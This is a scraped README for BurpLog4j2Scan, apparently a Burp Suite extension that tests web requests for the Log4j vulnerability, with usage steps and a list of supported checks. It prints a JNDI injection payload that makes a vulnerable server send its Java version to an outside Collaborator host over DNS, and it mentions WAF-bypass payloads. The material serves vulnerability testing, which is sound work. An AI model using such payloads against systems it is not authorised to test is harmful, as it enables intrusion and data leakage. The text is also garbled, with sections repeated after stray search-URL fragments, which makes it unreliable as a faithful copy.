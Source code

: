 # BurpLog4j2Scan
### Notice(it can't be used in cwd Machine as there's no dns server.)
### Download: please get the latest tool from my repository https://github.com/263423403/BurpLog4jScanner
### How to use
1. Load BurpLog4j2Scan.jar through Extender
![img.png](images/1.png)

2. Right click the request which you want to check and then follow Extensions >Send to BurpLog4j2Scan
![img.png](images/2.png)
3. Be patient and wait for the result, or maybe you can grab a coffee. The scan time could be around 10 minutes for complicated request.
4. Find the result in BurpLog4j2Scan Tab. If vuln exists, you can check the injected request and then further investigate on it.
![img.png](images/3.png)

### How to investigate:

For example, the tool told us header User-Agent can lead to log4j vul.
![img.png](images/4.png)

We can then use below payload to test it.
${jndi:ldap://${sys:java.version}.urlFromBurpCollaborator}
![img.png](images/5.png)

And then we can get the dns result which contains the java version from Burp Collaborator Client which means the log4j vuln exists.
![img.png](images/6.png) - Google URL: http://www.google.com/search?q=### How to investigate:

For example, the tool told us header User-Agent can lead to log4j vul.
![img.png](images/4.png)

We can then use below payload to test it.
${jndi:ldap://${sys:java.version}.urlFromBurpCollaborator}
![img.png](images/5.png)

And then we can get the dns result which contains the java version from Burp Collaborator Client which means the log4j vuln exists.
![img.png](images/6.png)

### What it supports:
1. Get parameter check:
![img.png](images/7.png)

2. Post parameter check:
![img.png](images/8.png)

3. Json parameter check:

![img.png](images/9.png)


4. Header check(First check original header, and then add some guess headers for further check )
![img.png](images/10.png) - Google URL: http://www.google.com/search?q=### What it supports:
1. Get parameter check:
![img.png](images/7.png)

2. Post parameter check:
![img.png](images/8.png)

3. Json parameter check:

![img.png](images/9.png)


4. Header check(First check original header, and then add some guess headers for further check )
![img.png](images/10.png)

### Features:
1. Cover checking on get,post,json,header
2. Add some bypass waf payloads
3. Accurate detection, and can investigate the detail clearly after vuln has been found.
